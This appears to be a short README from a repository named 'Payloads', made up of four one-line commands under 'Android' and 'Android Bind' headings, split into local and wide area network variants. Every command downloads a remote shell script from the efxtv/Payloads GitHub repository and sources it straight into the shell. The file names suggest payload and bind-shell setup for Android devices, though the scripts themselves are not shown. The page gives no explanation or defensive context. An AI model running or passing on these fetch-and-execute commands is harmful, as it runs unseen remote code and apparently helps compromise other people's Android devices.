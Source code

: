 # Android 

<B>Local Area Network</B><BR>
  <pre> source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LANAndroid.sh) </pre>
<BR>
<B>Wide Area Network</B>
 <pre>source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/VANAndroid.sh) </pre>

# Android Bind
<B>Local Area Network</B><BR>
  <pre> source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/LBIND.sh) </pre>
<BR>
<B>Wide Area Network</B>
 <pre>source <(curl -fsSl https://raw.githubusercontent.com/efxtv/Payloads/main/Demo/WBIND.sh) </pre>
